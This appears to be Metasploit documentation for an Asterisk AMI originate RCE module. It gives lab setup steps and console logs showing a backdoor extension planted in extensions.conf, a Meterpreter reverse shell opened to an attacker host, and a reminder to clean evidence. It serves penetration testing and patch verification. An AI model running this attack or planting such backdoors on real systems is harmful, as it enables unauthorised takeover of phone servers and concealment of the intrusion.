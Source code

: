 ## Vulnerable Application

On Asterisk, prior to versions 18.24.2, 20.9.2, and 21.4.2 and certified-asterisk
versions 18.9-cert11 and 20.7-cert2, an AMI user with 'write=originate' may change
all configuration files in the '/etc/asterisk/' directory. Writing a new extension
can be created which performs a system command to achieve RCE as the asterisk service
user (typically asterisk).

Default parking lot in FreePBX is called "Default lot" on the website interface,
however its actually 'parkedcalls'.

Tested against Asterisk 19.8.0 and 18.16.0 on Freepbx SNG7-PBX16-64bit-2302-1.

### Install

One easy method, while outdated, is using the FreePBX ISO.

1. Boot to ISO and install the system. Choose Asterisk 19
2. Visit the web interface on port 80
3. Complete initial setup, make sure to not do updates.
4. login
5. Click FreePBX Administration
6. Click the hamburger > Applications > Parking
7. Check the parking extension and name (`70` and `Default lot` are the defaults)
8. Login (ssh/local) and edit `/etc/asterisk/manager.conf`
  1. Under `[general]`:
    1. Change `bindaddr` value to `0.0.0.0`
    2. If you'd like to test the version checking, grab admin's secret, and set `permit=0.0.0.0/0.0.0.0`
    3. Add the following at the bottom of the file:
    ```
[testuser]
secret=testuser
write=originate
permit=0.0.0.0/255.255.255.0
    ```
9. reboot box (after boot, it may take SEVERAL minutes for asterisk to come up)

Default parking lot is called "Default lot" in the website interface, however its actually `parkedcalls`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/misc/asterisk_ami_originate_auth_rce`
1. Do: `set rhosts <rhost>`
1. Do: `set lhost <lhost>`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. You should get a shell.

## Options

### CONF

The extensions configuration file location. Defaults to `/etc/asterisk/extensions.conf`

### PARKINGLOT

The extensions and name of the parking lot. Defaults to `70@parkedcalls`

### EXTENSION

The extension number to backdoor. Defaults to a random number between 3-5 digits.

## Scenarios

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 19

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: EfVeZSDeGcn
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43812) at 2024-11-04 09:09:57 -0500

meterpreter > shell
Process 5831 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 19.8.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 07:07:49 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 18

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: fSvWOLdAx
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:53468) at 2024-11-04 09:37:35 -0500

meterpreter > shell
Process 3977 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 18.16.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 06:50:30 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```
